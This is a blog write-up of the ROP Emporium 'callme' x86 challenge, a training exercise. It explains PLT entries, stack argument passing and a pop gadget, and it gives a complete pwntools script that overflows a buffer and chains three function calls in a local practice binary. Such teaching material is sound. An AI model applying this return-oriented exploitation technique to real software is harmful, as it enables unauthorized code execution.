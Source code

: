 ```yaml
---
layout: post
title:  "ROP Emporium callme Writeup (x86)"
date:   2024-06-02 00:00:00 -0400
categories: rop-emporium callme
tags: rop-emporium callme x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[third challenge](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### Goal
According to the
[challenge page](https://ropemporium.com/challenge/callme.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the functions `callme_one()`,
`callme_two()`, and `callme_three()` in that order with
the arguments `0xdeadbeef`, `0xcafebabe`, and `0xd00df00d`.

We should essentially be running
```c
callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d);
callme_two(0xdeadbeef, 0xcafebabe, 0xd00df00d);
callme_three(0xdeadbeef, 0xcafebabe, 0xd00df00d);
```

## Exploit Crafting
The offset for `x86` challenges will be `44 bytes`. If
you want to know how to get this value see the
[`x86` ret2win writeup]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

### Function Address
> What are the plt addresses of the functions?
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![func-addr](/images/callme/x86-addr.png)

The function addresses we need are
```
callme_one: 0x080484f0
callme_two: 0x08048550
callme_three: 0x080484e0
```

### Procedure Linkage Table
These addresses aren't addresses of `call` instructions,
but rather `plt` entries. These `plt` entries are
used to lookup the address of a function located
in an external library. You can tell when an address
is a `plt` address by the `sym.imp` string in `r2`

If you want a deeper understanding
of the `plt` (procedure linkage table) and the `got`
(global offset table) you can check the `How lazy binding
works` section in the 
[ROP Emporium Beginners Guide](https://ropemporium.com/guide.html#Appendix%20A){:target="_blank"}{:rel="noopener noreferrer"}
as well as this
[fantastic blog post](https://systemoverlord.com/2017/03/19/got-and-plt-for-pwning.html){:target="_blank"}{:rel="noopener noreferrer"}

Why are we using the `plt` entries for the functions
rather than the calls in `usefulFunction`? When
a `call` instruction is executed, it'll execute the
function while also placing the return address onto
the stack! So once `callme_one()` is finished it
will continue to execute instructions in `usefulFunction`

![call-problem](/images/callme/x86-call-problem.png)

So after we finish `callme_one()`, the program
will exit. This would could be okay for one function
call but we want to chain a few together

### Adding Arguments
> Which instruction removes a value from the stack
> and moves the stack pointer?
{: .prompt-tip }

#### x86 Calling Convention
In `x86`, we pass each argument onto the stack.
There are other
[`x86` calling conventions](https://en.wikipedia.org/wiki/X86_calling_conventions){:target="_blank"}{:rel="noopener noreferrer"}
but passing arguments is all we need to know for
our purposes

The previous challenge used a `call` instruction to
invoke a function, but that won't work if we want
to chain multiple functions together. Using a `call`
also has the hidden effect of automatically adding
a return address to the stack!

#### Argument Debugging
Since we aren't using `call`, we need to manually maintain
the stack. A first attempt at constructing a ROP chain for
this challenge might look something like this 

![first-stack](/images/callme/x86-first-stack.png)

But when we try to run this, `callme_one`'s first
argument is incorrect! It points to the second arg
(`0xcafebabe`) instead of the first (`0xdeadbeef`)
![arg-error](/images/callme/x86-arg-error.png)

If we try to add some junk data (`0x66666666`) between
`callme_one` and `0xdeadbeef` we get a return error

![junk-stack](/images/callme/x86-junk-stack.png)

![junk-error](/images/callme/x86-junk-error.png)

If we replace the junk data with the address of
`callme_two`, the second function will get called
but the stack will be a little wonky...

![ret-stack](/images/callme/x86-ret-stack.png)

![ret-error](/images/callme/x86-ret-error.png)

What essentially happened is once `callme_one` finished
(with the proper arguments) the `callme_one` address
was `pop`ped off the stack and our previous junk entry
is now at the top of the stack. That address is called
and we have the same stack argument offset 
issues as before!

![arg2-error](/images/callme/x86-arg2-error.png)

#### Gadget
So how do we solve this? Here's
[a great article](http://phrack.org/issues/58/4.html#article){:target="_blank"}{:rel="noopener noreferrer"}
which goes over some methods for
chaining functions in a 32 bit environment.

We're going to be taking advantage of the `pop` command.
You should know by now that it takes a value off of the
stack and places it into a specified register. What
makes this really powerful is that it not only sets a
register, it'll update the stack pointer to remove the space
reserved for this value! This will allow us to 
completely delete our function arguments off of the stack
so the stack is properly set for our next function call

Since we have three arguments, we should find a gadget
which `pop`s three arguments into any register. In
`radare2` we can use the `/R` command

```
/R pop
```
![pop-addr](/images/callme/x86-pop-addr.png)

If we set this gadget to run once `callme` ends, it'll
remove all of the arguments for that function and we're
free to call more arbitrary functions with arbitrary
arguments! The stack should look like this in the final
exploit

![pop-stack](/images/callme/x86-pop-stack.png)

## Exploit
Now we have everything we need to build the exploit
```python
from pwn import *

# useful addresses
callme1_addr = 0x080484f0
callme2_addr = 0x08048550
callme3_addr = 0x080484e0
pop_3 = 0x080487f9

# adds function arguments onto the stack
def add_args(args):
    # fixes stack after function returns
    payload = p32(pop_3)
    # adds args
    for a in args:
        payload += p32(a)
    return payload

# required callme args in the proper order
args = [0xdeadbeef, 0xcafebabe, 0xd00df00d]

# construct payload
payload = b'A' * 44
# callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)
payload += p32(callme1_addr)
payload += add_args(args)

payload += p32(callme2_addr)
payload += add_args(args)

payload += p32(callme3_addr)
payload += add_args(args)

# send payload + receive flag
io = process('./callme32')
io.send(payload)
io.recvuntil(b'callme_two() called correctly\n')
flag = io.recvline()
log.success(flag.decode('utf-8'))
```
![flag](/images/callme/x86-flag.png)

## Conclusion
This challenge takes things a step further than
just calling an arbitrary function by introducting the 
ability to set arbitrary arguments for that function.
This isn't as simple as it seems as we also need to
maintain the stack under `x86` with a `pop` gadget!

[previous challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[next challenge (write4)]({% post_url 2024-05-31-rop-emporium-ret2win-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[callme x64]({% post_url 2024-06-02-rop-emporium-callme-x64 %}){:target="_blank"}{:rel="noopener noreferrer"}
